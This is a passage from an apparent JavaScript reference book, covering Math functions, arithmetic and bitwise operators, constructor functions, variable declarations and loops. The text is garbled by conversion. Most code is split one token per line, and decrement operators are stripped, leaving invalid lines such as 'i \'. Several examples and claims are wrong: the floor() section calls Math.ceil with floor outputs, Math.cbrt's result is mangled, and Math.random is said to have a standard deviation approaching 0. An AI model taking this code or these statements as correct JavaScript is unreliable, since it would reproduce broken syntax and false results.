probabilities. Let\'s imagine you want to simulate an event that has
six equally probable outcomes. This is quite simple.

**function**

simulateEvent

(

numEvents

)

{

**var**

event

=

Math

.

floor

(

numEvents

\*

Math

.

random

(

)

)

;

**return**

event

;

}

*// simulate fair die*

console.

log

(

\"Rolled a \"

\+

(

simulateEvent

(

6

)

\+

1

)

)

;

*// Rolled a 2*

However, you may not want equally probable outcomes. Say you had a
list of three outcomes represented as an array of probabilities in
percents or multiples of likelihood. Such an example might be a
weighted die. You could rewrite the previous function to simulate such
an event.

**function**

simulateEvent

(

chances

)

{

**var**

sum

=

0

;

chances.

forEach

(

**function**

(

chance

)

{

sum

+=

chance

;

}

)

;

**var**

rand

=

Math

.

random

(

)

;

**var**

chance

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

chances.

length

;

i

++

)

{

chance

+=

chances

\[

i

\]

/

sum

;

**if**

(

rand

\<

chance

)

{

**return**

i

;

}

}

*// should never be reached unless sum of probabilities is less than 1*

*// due to all being zero or some being negative probabilities*

**return**

\-

1

;

}

*// simulate weighted dice where 6 is twice as likely as any other face*

*// using multiples of likelihood*

console.

log

(

\"Rolled a \"

\+

(

simulateEvent

(

\[

1

,

1

,

1

,

1

,

1

,

2

\]

)

\+

1

)

)

;

*// Rolled a 1*

*// using probabilities*

console.

log

(

\"Rolled a \"

\+

(

simulateEvent

(

\[

1

/

7

,

1

/

7

,

1

/

7

,

1

/

7

,

1

/

7

,

2

/

7

\]

)

\+

1

)

)

;

*// Rolled a 6*

As you probably noticed, these functions return an index, so you could
have more descriptive outcomes stored in an array. Here\'s an example.
>
**var** rewards = \[\"gold coin\",\"silver coin\",\"diamond\",\"god
sword\"\]; **var** likelihoods = \[5,9,1,0\];
>
*// least likely to get a god sword (0/15 = 0%, never),*
>
*// most likely to get a silver coin (9/15 = 60%, more than half the
time)*
>
*// simulate event, log reward*
>
console.log(\"You get a \"+rewards\[simulateEvent(likelihoods)\]); *//
You get a silver coin*

## Section 14.13: Subtraction (-)

The subtraction operator (-) subtracts numbers.

**var**

a

=

9

;

**var**

b

=

3

;

**var**

c

=

a

\-

b

;

c will now be 6
>
If a string or boolean is provided in place of a number value, it gets
converted to a number before the difference is calculated (0 for
**false**, 1 for **true**):

\"5\"

\-

1

;

*// 4*

7

\-

\"3\"

;

*// 4*

\"5\"

\-

**true**

;

*// 4*

If the string value cannot be converted into a Number, the result will
be **NaN**:

\"foo\"

\-

1

;

*// NaN*

100

\-

\"bar\"

;

*// NaN*

## Section 14.14: Multiplication (\*)

The multiplication operator (\*) perform arithmetic multiplication on
numbers (literals or variables).

console.

log

(

3

\*

5

)

;

*// 15*

console.

log

(

\-

3

\*

5

)

;

*// -15*

console.

log

(

3

\*

\-

5

)

;

*// -15*

console.

log

(

\-

3

\*

\-

5

)

;

*// 15*

## Section 14.15: Getting maximum and minimum

  
  Math                                .        max
    

  

The () function returns the largest of zero or more numbers.

Math

.

max

(

4

,

12

)

;

*// 12*

Math

.

max

(

\-

1

,

\-

15

)

;

*// -1*

  
  Math                                .        min
    

  

The () function returns the smallest of zero or more numbers.

Math

.

min

(

4

,

12

)

;

*// 4*

Math

.

min

(

\-

1

,

\-

15

)

;

*// -15*

**Getting maximum and minimum from an array:**

**var**

arr

=

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

,

9

\]

,

max

=

Math

.

max

.

apply

(

Math

,

arr

)

,

min

=

Math

.

min

.

apply

(

Math

,

arr

)

;

console.

log

(

max

)

;

*// Logs: 9*

console.

log

(

min

)

;

*// Logs: 1*

ECMAScript 6 [spread
operator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_operator),
getting the maximum and minimum of an array:

**var**

arr

=

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

,

9

\]

,

max

=

Math

.

max

(

\...

arr

)

,

min

=

Math

.

min

(

\...

arr

)

;

console.

log

(

max

)

;

*// Logs: 9*

console.

log

(

min

)

;

*// Logs: 1*

## Section 14.16: Restrict Number to Min/Max Range

If you need to clamp a number to keep it inside a specific range
boundary

**function**

clamp

(

min

,

max

,

val

)

{

**return**

Math

.

min

(

Math

.

max

(

min

,

\+

val

)

,

max

)

;

}

console.

log

(

clamp

(

\-

10

,

10

,

\"4.30\"

)

)

;

*// 4.3*

console.

log

(

clamp

(

\-

10

,

10

,

\-

8

)

)

;

*// -8*

console.

log

(

clamp

(

\-

10

,

10

,

12

)

)

;

*// 10*

console.

log

(

clamp

(

\-

10

,

10

,

\-

15

)

)

;

*// -10*

[Use-case example (jsFiddle)](https://jsfiddle.net/RokoCB/8drqL3vo/)

## Section 14.17: Ceiling and Floor

**ceil()**

  
  ceil()
  

  

The method rounds a number *upwards* to the nearest integer, and
returns the result.
>
**Syntax:**

Math

.

ceil

(

n

)

;

**Example:**

console.

log

(

Math

.

ceil

(

0.60

)

)

;

*// 1*

console.

log

(

Math

.

ceil

(

0.40

)

)

;

*// 1*

console.

log

(

Math

.

ceil

(

5.1

)

)

;

*// 6*

console.

log

(

Math

.

ceil

(

\-

5.1

)

)

;

*// -5*

console.

log

(

Math

.

ceil

(

\-

5.9

)

)

;

*// -5*

**floor**

**(**

**)**

  
  floor()
  

  

The method rounds a number *downwards* to the nearest integer, and
returns the result.
>
**Syntax:**

Math

.

floor

(

n

)

;

**Example:**

console.

log

(

Math

.

ceil

(

0.60

)

)

;

*// 0*

console.

log

(

Math

.

ceil

(

0.40

)

)

;

*// 0*

console.

log

(

Math

.

ceil

(

5.1

)

)

;

*// 5*

console.

log

(

Math

.

ceil

(

\-

5.1

)

)

;

*// -6*

console.

log

(

Math

.

ceil

(

\-

5.9

)

)

;

*// -6*

## Section 14.18: Getting roots of a number

**Square Root**

  
  Math                            .       sqrt
   - 

  

Use () to find the square root of a number

Math

.

sqrt

(

16

)

\#

=\>

4

**Cube Root**

  
  Math                            .       cbrt
   - 

  

To find the cube root of a number, use the () function

Version ≥ 6

Math.cbrt(27) #=\3

**Finding nth-roots**

  
  Math                                .        pow
    

  

To find the nth-root, use the () function and pass in a fractional
exponent.

Math

.

pow

(

64

,

1

/

6

)

\#

=\>

2

## Section 14.19: Random with gaussian distribution

  
  Math                      .      random
    

  

The () function should give random numbers that have a standard
deviation approaching 0. When picking from a deck of card, or
simulating a dice roll this is what we want.
>
But in most situations this is unrealistic. In the real world the
randomness tends to gather around an common normal value. If plotted
on a graph you get the classical bell curve or gaussian distribution.

  
  Math                      .      random
    

  

To do this with the () function is relatively simple.
>
**var** randNum = (Math.random() + Math.random()) / 2; **var** randNum
= (Math.random() + Math.random() + Math.random()) / 3;
>
**var** randNum = (Math.random() + Math.random() + Math.random() +
Math.random()) / 4;
>
Adding a random value to the last increases the variance of the random
numbers. Dividing by the number of times you add normalises the result
to a range of 01
>
As adding more than a few randoms is messy a simple function will
allow you to select a variance you want.

*// v is the number of times random is summed and should be over \>= 1*

*// return a random number between 0-1 exclusive*

**function**

randomG

(

v

)

{

**var**

r

=

0

;

**for**

(

**var**

i

=

v

;

i

\>

0

;

i

\

)

{

r

+=

Math

.

random

(

)

;

}

**return**

r

/

v

;

}

The image shows the distribution of random values for different values
of v. The top left is standard single

  
  Math   .   random    () call the bottom right is         Math   .   random
        

  

() summed 8 times. This is from 5,000,000 samples using

Chrome

This method is most efficient at v\<5

## Section 14.20: Math.atan2 to find direction

If you are working with vectors or lines you will at some stage want
to get the direction of a vector, or line. Or the direction from a
point to another point.

  
  Math   .   atan   (   yComponent   ,   xComponent   ) return the angle in radius    Math   .   PI   to   Math   .   PI   (-   180
                                                      within the range of -                                                     
                  -

  

to 180 deg)

**Direction of a vector**

**var**

vec

=

{

x

:

4

,

y

:

3

}

;

**var**

dir

=

Math

.

atan2

(

vec.

y

,

vec.

x

)

;

*// 0.6435011087932844*

**Direction of a line**

**var**

line

=

{

p1

:

{

x

:

100

,

y

:

128

}

,

p2

:

{

x

:

320

,

y

:

256

}

}

*// get the direction from p1 to p2*

**var**

dir

=

Math

.

atan2

(

line.

p2

.

y

\-

line.

p1

.

y

,

line.

p2

.

x

\-

line.

p1

.

x

)

;

*// 0.5269432271894297*

**Direction from a point to another point**
>
**var** point1 = { x: 123, y : 294}; **var** point2 = { x: 354, y :
284};
>
*// get the direction from point1 to point2*
>
**var** dir = Math.atan2(point2.y - point1.y, point2.x - point1.x);
*// -0.04326303140726714*

## Section 14.21: Sin & Cos to create a vector given direction & distance

If you have a vector in polar form (direction & distance) you will
want to convert it to a cartesian vector with a x and y component. For
reference the screen coordinate system has directions as 0 deg points
from left to right, 90 (PI/2) point down the screen, and so on in a
clock wise direction.

**var**

dir

=

1.4536

;

*// direction in radians*

**var**

dist

=

200

;

*// distance*

**var**

vec

=

{

}

;

vec.

x

=

Math

.

cos

(

dir

)

\*

dist

;

*// get the x component*

vec.

y

=

Math

.

sin

(

dir

)

\*

dist

;

*// get the y component*

You can also ignore the distance to create a normalised (1 unit long)
vector in the direction of dir

**var**

dir

=

1.4536

;

*// direction in radians*

**var**

vec

=

{

}

;

vec.

x

=

Math

.

cos

(

dir

)

;

*// get the x component*

vec.

y

=

Math

.

sin

(

dir

)

;

*// get the y component*

If your coordinate system has y as up then you need to switch cos and
sin. In this case a positive direction is in a counterclockwise
direction from the x axis.

*// get the directional vector where y points up*

**var**

dir

=

1.4536

;

*// direction in radians*

**var**

vec

=

{

}

;

vec.

x

=

Math

.

sin

(

dir

)

;

*// get the x component*

vec.

y

=

Math

.

cos

(

dir

)

;

*// get the y component*

## Section 14.22: Math.hypot

To find the distance between two points we use pythagoras to get the
square root of the sum of the square of the component of the vector
between them.

**var**

v1

=

{

x

:

10

,

y

:

5

}

;

**var**

v2

=

{

x

:

20

,

y

:

10

}

;

**var**

x

=

v2.

x

\-

v1.

x

;

**var**

y

=

v2.

y

\-

v1.

y

;

**var**

distance

=

Math

.

sqrt

(

x

\*

x

\+

y

\*

y

)

;

*// 11.180339887498949*

  -
  Math                         .       hypot
   - 

  -

With ECMAScript 6 came which does the same thing

**var**

v1

=

{

x

:

10

,

y

:

5

}

;

**var**

v2

=

{

x

:

20

,

y

:

10

}

;

**var**

x

=

v2.

x

\-

v1.

x

;

**var**

y

=

v2.

y

\-

v1.

y

;

**var**

distance

=

Math

.

hypot

(

x

,

y

)

;

*// 11.180339887498949*

Now you don\'t have to hold the interim vars to stop the code becoming
a mess of variables

**var**

v1

=

{

x

:

10

,

y

:

5

}

;

**var**

v2

=

{

x

:

20

,

y

:

10

}

;

**var**

distance

=

Math

.

hypot

(

v2.

x

\-

v1.

x

,

v2.

y

\-

v1.

y

)

;

*// 11.180339887498949*

  -
  Math                         .       hypot
   - 

  -

can take any number of dimensions

*// find distance in 3D*

**var**

v1

=

{

x

:

10

,

y

:

5

,

z

:

7

}

;

**var**

v2

=

{

x

:

20

,

y

:

10

,

z

:

16

}

;

**var**

dist

=

Math

.

hypot

(

v2.

x

\-

v1.

x

,

v2.

y

\-

v1.

y

,

v2.

z

\-

v1.

z

)

;

*// 14.352700094407325*

*// find length of 11th dimensional vector*

**var**

v

=

\[

1

,

3

,

2

,

6

,

1

,

7

,

3

,

7

,

5

,

3

,

1

\]

;

**var**

i

=

0

;

dist

=

Math

.

hypot

(

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

,

v

\[

i

++

\]

)

;

## Section 14.23: Periodic functions using Math.sin

  
  Math           .   sin        and            Math           .   cos
    -    -

  

are cyclic with a period of 2\*PI radians (360 deg) they output a wave
with an amplitude of 2

in the range -1 to 1.
>
Graph of sine and cosine function: *(courtesy Wikipedia)*

{width="6.252083333333333in"
height="3.990972222222222in"}

They are both very handy for many types of periodic calculations, from
creating sound waves, to animations, and even encoding and decoding
image data
>
This example shows how to create a simple sin wave with control over
period/frequency, phase, amplitude, and offset.
>
The unit of time being used is seconds.
>
The most simple form with control over frequency only.

*// time is the time in seconds when you want to get a sample*

*// Frequency represents the number of oscillations per second*

**function**

oscillator

(

time

,

frequency

)

{

**return**

Math

.

sin

(

time

\*

2

\*

Math

.

PI

\*

frequency

)

;

}

In almost all cases you will want to make some changes to the value
returned. The common terms for modifications
>
Phase: The offset in terms of frequency from the start of the
oscillations. It is a value in the range of 0 to 1 where the value 0.5
move the wave forward in time by half its frequency. A value of 0 or 1
makes no change. Amplitude: The distance from the lowest value and
highest value during one cycle. An amplitude of 1 has a range of 2.
The lowest point (trough) -1 to the highest (peak) 1. For a wave with
frequency 1 the peak is at
>
0.25 seconds, and trough at 0.75.
>
Offset: moves the whole wave up or down.
>
To include all these in the function:
>
**function** oscillator(time, frequency = 1, amplitude = 1, phase = 0,
offset = 0){ **var** t = time \* frequency \* Math.PI \* 2; *// get
phase at time*

t

+=

phase

\*

Math

.

PI

\*

2

;

*// add the phase offset*

**var**

v

=

Math

.

sin

(

t

)

;

*// get the value at the calculated position in the cycle*

v

\*=

amplitude

;

*// set the amplitude*

v

+=

offset

;

*// add the offset*

**return**

v

;

}

Or in a more compact (and slightly quicker form):
>
**function** oscillator(time, frequency = 1, amplitude = 1, phase = 0,
offset = 0){ **return** Math.sin(time \* frequency \* Math.PI \* 2 +
phase \* Math.PI \* 2) \* amplitude + offset; }
>
All the arguments apart from time are optional

## Section 14.24: Division (/)

The division operator (/) perform arithmetic division on numbers
(literals or variables).

console.

log

(

15

/

3

)

;

*// 5*

console.

log

(

15

/

4

)

;

*// 3.75*

## Section 14.25: Decrementing (\)

The decrement operator (\) decrements numbers by one.

If used as a postfix to

n

, the operator returns the current

n

and

*then*

assigns the decremented the value.

If used as a prefix to

n

, the operator assigns the decremented

n

and

*then*

returns the changed value.

**var**

a

=

5

,

*// 5*

b

=

a

\

,

*// 5*

c

=

a

*// 4*

In this case, b is set to the initial value of a. So, b will be 5, and
c will be 4.

**var**

a

=

5

,

*// 5*

b

=

\

a

,

*// 4*

c

=

a

*// 4*

In this case, b is set to the new value of a. So, b will be 4, and c
will be 4.
>
**Common Uses**
>
The decrement and increment operators are commonly used in **for**
loops, for example:

**for**

(

**var**

i

=

42

;

i

\>

0

;

\

i

)

{

console.

log

(

i

)

}

Notice how the *prefix* variant is used. This ensures that a
temporarily variable isn\'t needlessly created (to return the value
prior to the operation).
>
**Note:** Neither \ nor ++ are like normal mathematical operators,
but rather they are very concise operators for *assignment*.
Notwithstanding the return value, both

x\

and

\

x

reassign to

x

such that

x

=

x

\-

1

.

**const**

x

=

1

;

console.

log

(

x

\

)

*// TypeError: Assignment to constant variable.*

console.

log

(

\

x

)

*// TypeError: Assignment to constant variable.*

console.

log

(

\

3

)

*// ReferenceError: Invalid left-hand size expression in prefix
operation.*

console.

log

(

3

\

)

*// ReferenceError: Invalid left-hand side expression in postfix
operation.*

# Chapter 15: Bitwise operators

## Section 15.1: Bitwise operators

Bitwise operators perform operations on bit values of data. These
operators convert operands to signed 32-bit integers in [two\'s
complement](http://stackoverflow.com/questions/1049722/what-is-2s-complement).
>
**Conversion to 32-bit integers**
>
Numbers with more than 32 bits discard their most significant bits.
For example, the following integer with more than 32 bits is converted
to a 32-bit integer:

Before

:

10100110111110100000000010000011110001000001

After

:

10100000000010000011110001000001

**Two\'s Complement**
>
In normal binary we find the binary value by adding the 1\'s based on
their position as powers of 2 - The rightmost bit being 2\^0 to the
leftmost bit being 2\^n-1 where n is the number of bits. For example,
using 4 bits:

*// Normal Binary*

*// 8 4 2 1*

0

1

1

0

=\>

0

\+

4

\+

2

\+

0

=\>

6

Two complement\'s format means that the number\'s negative counterpart
(6 vs -6) is all the bits for a number inverted, plus one. The
inverted bits of 6 would be:

*// Normal binary*

0

1

1

0

*// One\'s complement (all bits inverted)*

1

0

0

1

=\>

\-

8

\+

0

\+

0

\+

1

=\>

\-

7

*// Two\'s complement (add 1 to one\'s complement)*

1

0

1

0

=\>

\-

8

\+

0

\+

2

\+

0

=\>

\-

6

*Note:* Adding more 1\'s to the left of a binary number does not
change its value in two\'s compliment. The value 1010 and
1111111111010 are both -6.
>
**Bitwise AND**

  -
  a                           &                b
   - 

  -

The bitwise AND operation returns the binary value with a 1 where both
binary operands have 1\'s in a specific position, and 0 in all other
positions. For example:

13

&

7

=\>

5

*// 13: 0..01101*

*// 7: 0..00111*

*//\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\*

*// 5: 0..00101 (0 + 0 + 4 + 0 + 1)*

**Real world example: Number\'s Parity Check**
>
Instead of this \"masterpiece\" (unfortunately too often seen in many
real code parts):

**function**

isEven

(

n

)

{

**return**

n

\%

2

==

0

;

}

**function**

isOdd

(

n

)

{

**if**

(

isEven

(

n

)

)

{

**return**

**false**

;

}

**else**

{

**return**

**true**

;

}

}

You can check the (integer) number\'s parity in much more effective
and simple manner:

**if**

(

n

&

1

)

{

console.

log

(

\"ODD!\"

)

;

}

**else**

{

console.

log

(

\"EVEN!\"

)

;

}

**Bitwise OR**

  -
  a                            \|             b
    

  -

The bitwise OR operation returns the binary value with a 1 where
either operands or both operands have 1\'s in a specific position, and
0 when both values have 0 in a position. For example:

13

\|

7

=\>

15

*// 13: 0..01101*

*// 7: 0..00111*

*//\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\*

*// 15: 0..01111 (0 + 8 + 4 + 2 + 1)*

**Bitwise NOT**
>
The bitwise NOT operation \~a *flips* the bits of the given value a.
This means all the 1\'s will become 0\'s and all the 0\'s will become
1\'s.

\~13 =\-14

// 13: 0..01101

//\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\

//-14: 1..10010 (-16 + 0 + 0 + 2 + 0)

**Bitwise XOR**

  -
  a                            \^             b
    

  -

The bitwise XOR (*exclusive or*) operation places a 1 only if the two
bits are different. Exclusive or means *either one or the other, but
not both*.

13

\^

7

=\>

10

*// 13: 0..01101*

*// 7: 0..00111*

*//\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\*

*// 10: 0..01010 (0 + 8 + 0 + 2 + 0)*

**Real world example: swapping two integer values without additional
memory allocation**

**var**

a

=

11

,

b

=

22

;

a

=

a

\^

b

;

b

=

a

\^

b

;

a

=

a

\^

b

;

console.

log

(

\"a = \"

\+

a

\+

\"; b = \"

\+

b

)

;

*// a is now 22 and b is now 11*

## Section 15.2: Shift Operators

Bitwise shifting can be thought as \"moving\" the bits either left or
right, and hence changing the value of the data operated on.
>
**Left Shift**

  
  value   )   \<\<   (   shift amount  ) will shift the bits to the    shift amount
                                       left by (                       
  -    -  -

  

The left shift operator () bits; the new bits coming in from the right
will be 0\'s:

5

\<\<

2

=\>

20

*// 5: 0..000101*

*// 20: 0..010100 \<= adds two 0\'s to the right*

**Right Shift (*Sign-propagating*)**

  
  value           )   \>\        (   shift amount
      

  

The right shift operator () is also known as the \"Sign-propagating
right shift\" because it
>
keeps the sign of the initial operand. The right shift operator shifts
the value the specified shift amount of bits to the right. Excess bits
shifted off the right are discarded. The new bits coming in from the
left will be based on the sign of the initial operand. If the
left-most bit was 1 then the new bits will all be 1 and vice-versa for
0\'s.

20

\>\>

2

=\>

5

*// 20: 0..010100*

*// 5: 0..000101 \<= added two 0\'s from the left and chopped off 00
from the right*

\-

5

\>\>

3

=\>

\-

1

*// -5: 1..111011*

*// -2: 1..111111 \<= added three 1\'s from the left and chopped off 011
from the right*

**Right Shift (*Zero fill*)**

  
  value          )   \>\>\        (   shift amount
      

  

The zero-fill right shift operator () will move the bits to the right,
and the new bits will
>
be 0\'s. The 0\'s are shifted in from the left, and excess bits to the
right are shifted off and discarded. This means it can make negative
numbers into positive ones.

\-

30

\>\>\>

2

=\>

1073741816

*// -30: 111..1100010*

*//1073741816: 001..1111000*

Zero-fill right shift and sign-propagating right shift yield the same
result for non negative numbers.

# Chapter 16: Constructor functions

## Section 16.1: Declaring a constructor function

Constructor functions are functions designed to construct a new
object. Within a constructor function, the keyword **this** refers to
a newly created object which values can be assigned to. Constructor
functions \"return\" this new object automatically.

**function**

Cat

(

name

)

{

**this**

.

name

=

name

;

**this**

.

sound

=

\"Meow\"

;

}

Constructor functions are invoked using the **new** keyword:

**let**

cat

=

**new**

Cat

(

\"Tom\"

)

;

cat.

sound

;

*// Returns \"Meow\"*

Constructor functions also have a **prototype** property which points
to an object whose properties are automatically inherited by all
objects created with that constructor:

Cat.

**prototype**

.

speak

=

**function**

(

)

{

console.

log

(

**this**

.

sound

)

;

}

cat.

speak

(

)

;

*// Outputs \"Meow\" to the console*

Objects created by constructor functions also have a special property
on their prototype called constructor, which points to the function
used to create them:

cat.

constructor

*// Returns the \`Cat\` function*

Objects created by constructor functions are also considered to be
\"instances\" of the constructor function by the **instanceof**
operator:

cat

**instanceof**

Cat

*// Returns \"true\"*

# Chapter 17: Declarations and Assignments

## Section 17.1: Modifying constants

Declaring a variable **const** only prevents its value from being
*replaced* by a new value. **const** does not put any restrictions on
the internal state of an object. The following example shows that a
value of a property of a **const** object can be changed, and even new
properties can be added, because the object that is assigned to person
is modified, but not *replaced*.

**const**

person

=

{

name

:

\"John\"

}

;

console.

log

(

\'The name of the person is\'

,

person.

name

)

;

person.

name

=

\"Steve\"

;

console.

log

(

\'The name of the person is\'

,

person.

name

)

;

person.

surname

=

\"Fox\"

;

console.

log

(

\'The name of the person is\'

,

person.

name

,

\'and the surname is\'

,

person.

surname

)

;

**Result:**

The name of the person is John

The name of the person is Steve

The name of the person is Steve and the surname is Fox

  
  person.name
  

  

  
  person.surname
  

  

In this example we\'ve created constant object called person and
we\'ve reassigned property and created new property.

## Section 17.2: Declaring and initializing constants

You can initialize a constant by using the **const** keyword.

**const**

foo

=

100

;

**const**

bar

=

**false**

;

**const**

person

=

{

name

:

\"John\"

}

;

**const**

fun

=

**function**

(

)

=

{

*/\* \... \*/*

}

;

**const**

arrowFun

=

(

)

=\>

*/\* \... \*/*

;

**Important**
>
You must declare and initialize a constant in the same statement.

## Section 17.3: Declaration

There are four principle ways to declare a variable in JavaScript:
using the **var**, **let** or **const** keywords, or without a keyword
at all (\"bare\" declaration). The method used determines the
resulting scope of the variable, or reassignability in the case of
**const**.

The

**var**

keyword creates a function-scope variable.

The

**let**

keyword creates a block-scope variable.

The

**const**

keyword creates a block-scope variable that cannot be reassigned.

A bare declaration creates a global variable.

**var**

a

=

\'foo\'

;

*// Function-scope*

**let**

b

=

\'foo\'

;

*// Block-scope*

**const**

c

=

\'foo\'

;

*// Block-scope & immutable reference*

Keep in mind that you can\'t declare constants without initializing
them at the same time. **const** foo; *// \"Uncaught SyntaxError:
Missing initializer in const declaration\"*
>
(An example of keyword-less variable declaration is not included above
for technical reasons. Continue reading to see an example.)

## Section 17.4: Undefined

Declared variable without a value will have the value **undefined**

**var**

a

;

console.

log

(

a

)

;

*// logs: undefined*

Trying to retrieve the value of undeclared variables results in a
ReferenceError. However, both the type of undeclared and unitialized
variables is \"undefined\":

**var**

a

;

console.

log

(

**typeof**

a

===

\"undefined\"

)

;

*// logs: true*

console.

log

(

**typeof**

variableDoesNotExist

===

\"undefined\"

)

;

*// logs: true*

## Section 17.5: Data Types

JavaScript variables can hold many data types: numbers, strings,
arrays, objects and more:

*// Number*

**var**

length

=

16

;

*// String*

**var**

message

=

\"Hello, World!\"

;

*// Array*

**var**

carNames

=

\[

\'Chevrolet\'

,

\'Nissan\'

,

\'BMW\'

\]

;

*// Object*

**var**

person

=

{

firstName

:

\"John\"

,

lastName

:

\"Doe\"

}

;

JavaScript has dynamic types. This means that the same variable can be
used as different types:

**var**

a

;

*// a is undefined*

**var**

a

=

5

;

*// a is a Number*

**var**

a

=

\"John\"

;

*// a is a String*

## Section 17.6: Mathematic operations and assignment

**Increment by**

**var**

a

=

9

,

b

=

3

;

b

+=

a

;

b will now be 12
>
This is functionally the same as

b

=

b

\+

a

;

**Decrement by**

**var**

a

=

9

,

b

=

3

;

b

-=

a

;

b

will now be 6

This is functionally the same as

b

=

b

\-

a

;

**Multiply by**

**var**

a

=

5

,

b

=

3

;

b

\*=

a

;

b

will now be 15

This is functionally the same as

b

=

b

\*

a

;

**Divide by**

**var**

a

=

3

,

b

=

15

;

b

/=

a

;

b

will now be 5

This is functionally the same as

b

=

b

/

a

;

Version ≥ 7 **Raised to the power of**

**var**

a

=

3

,

b

=

15

;

b

\*\*=

a

;

b will now be 3375
>
This is functionally the same as

b

=

b

\*\*

a

;

## Section 17.7: Assignment

To assign a value to a previously declared variable, use the
assignment operator, =:

a

=

6

;

b

=

\"Foo\"

;

As an alternative to independent declaration and assignment, it is
possible to perform both steps in one statement:

**var**

a

=

6

;

**let**

b

=

\"Foo\"

;

It is in this syntax that global variables may be declared without a
keyword; if one were to declare a bare variable without an assignment
immediately afterword, the interpreter would not be able to
differentiate global declarations a; from references to variables a;.

c

=

5

;

c

=

\"Now the value is a String.\"

;

myNewGlobal

;

*// ReferenceError*

Note, however, that the above syntax is generally discouraged and is
not strict-mode compliant. This is to avoid the scenario in which a
programmer inadvertently drops a **let** or **var** keyword from their
statement, accidentally creating a variable in the global namespace
without realizing it. This can pollute the global namespace and
conflict with libraries and the proper functioning of a script.
Therefore global variables should be declared and initialized using
the **var** keyword in the context of the window object, instead, so
that the intent is explicitly stated.
>
Additionally, variables may be declared several at a time by
separating each declaration (and optional value assignment) with a
comma. Using this syntax, the var and let keywords need only be used
once at the beginning of each statement.

globalA

=

\"1\"

,

globalB

=

\"2\"

;

**let**

x

,

y

=

5

;

**var**

person

=

\'John Doe\'

,

foo

,

age

=

14

,

date

=

**new**

Date

(

)

;

Notice in the preceding code snippet that the order in which declaration
and assignment expressions occur (

**var**

a

,

b

,

c

=

2

,

d

;

)

does not matter. You may freely intermix the two.

Function declaration effectively creates variables, as well.

# Chapter 18: Loops

## Section 18.1: Standard \"for\" loops

**Standard usage**

**for**

(

**var**

i

=

0

;

i

\<

100

;

i

++

)

{

console.

log

(

i

)

;

}

Expected output:
>
0
>
1
>
\...
>
99
>
**Multiple declarations**
>
Commonly used to cache the length of an array.

**var**

array

=

\[

\'a\'

,

\'b\'

,

\'c\'

\]

;

**for**

(

**var**

i

=

0

;

i

\<

array.

length

;

i

++

)

{

console.

log

(

array

\[

i

\]

)

;

}

Expected output:

\'a\'

\'b\'

\'c\'

**Changing the increment**

**for**

(

**var**

i

=

0

;

i

\<

100

;

i

+=

2

*/\* Can also be: i = i + 2 \*/*

)

{

console.

log

(

i

)

;

}

Expected output:

0

2

4

\...

98

**Decremented loop**

**for**

(

**var**

i

=

100

;

i

\>=

0

;

i

\

)

{

console.

log

(

i

)

;

}

Expected output:
>
100
>
99
>
98
>
\...
>
0

## Section 18.2: \"for \... of\" loop

Version ≥ 6

**const**

iterable

=

\[

0

,

1

,

2

\]

;

**for**

(

**let**

i of iterable

)

{

console.

log

(

i

)

;

}

Expected output:
>
0
>
1
>
2
>
The advantages from the for\...of loop are:

  
  forEach
  

  

This is the most concise, direct syntax yet for looping through array
elements
>
It avoids all the pitfalls of for\...in Unlike (), it works with
break, continue, and return
>
**Support of for\...of in other collections Strings** for\...of will
treat a string as a sequence of Unicode characters:

**const**

string

=

\"abc\"

;

**for**

(

**let**

chr of string

)

{

console.

log

(

chr

)

;

}

Expected output:

a b c

**Sets** for\...of works on Set objects.
>
**Note**:

  
  Set
  

  

A Set object will eliminate duplicates.
>
Please [check this
reference](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Set#Browser_compatibility)
for () browser support.

**const**

names

=

\[

\'bob\'

,

\'alejandro\'

,

\'zandra\'

,

\'anna\'

,

\'bob\'

\]

;

**const**

uniqueNames

=

**new**

Set

(

names

)

;

**for**

(

**let**

name of uniqueNames

)

{

console.

log

(

name

)

;

}

Expected output:
>
bob
>
alejandro zandra anna
>
**Maps**
>
You can also use for\...of loops to iterate over Maps. This works
similarly to arrays and sets, except the iteration variable stores
both a key and a value.

**const**

map

=

**new**

Map

(

)

.

**set**

(

\'abc\'

,

1

)

.

**set**

(

\'def\'

,

2

)

**for**

(

**const**

iteration of map

)

{

console.

log

(

iteration

)

*//will log \[\'abc\', 1\] and then \[\'def\', 2\]*

}

You can use destructuring assignment to capture the key and the value
separately:

**const**

map

=

**new**

Map

(

)

.

**set**

(

\'abc\'

,

1

)

.

**set**

(

\'def\'

,

2

)

**for**

(

**const**

\[

key

,

value

\]

of map

)

{

console.

log

(

key

\+

\' is mapped to \'

\+

value

)

}

*/\*Logs:*

*abc is mapped to 1*

*def is mapped to 2*

*\*/*

**Objects**

  
  Object                                 .      keys
    

  

for\...of loops *do not* work directly on plain Objects; but, it is
possible to iterate over an object's properties by switching to a
for\...in loop, or using ():

**const**

someObject

=

{

name

:

\'Mike\'

}

;

**for**

(

**let**

key of

Object

.

keys

(

someObject

)

)

{

console.

log

(

key

\+

\": \"

\+

someObject

\[

key

\]

)

;

}

Expected output:

name: Mike

## Section 18.3: \"for \... in\" loop

**Warning**

for\...in is intended for iterating over object keys, not array indexes.

[Using it to loop through an array i]{.underline}

[s](http://stackoverflow.com/questions/500504/why-is-using-for-in-with-array-iteration-such-a-bad-idea)

[generally discourage]{.underline}

[d](http://stackoverflow.com/questions/500504/why-is-using-for-in-with-array-iteration-such-a-bad-idea)

. It also includes properties from the prototype, so it may be necessary
to check if

the key is within the object using

hasOwnProperty

. If any attributes in the object are defined by the

defineProperty

/

s

definePropertie

method and set the param

enumerable

:

**false**

, those attributes will

be inaccessible.

**var**

object

=

{

\"a\"

:

\"foo\"

,

\"b\"

:

\"bar\"

,

\"c\"

:

\"baz\"

}

;

*// \`a\` is inaccessible*

Object

.

defineProperty

(

object

,

\'a\'

,

{

enumerable

:

**false**

,

}

)

;

**for**

(

**var**

key

**in**

object

)

{

**if**

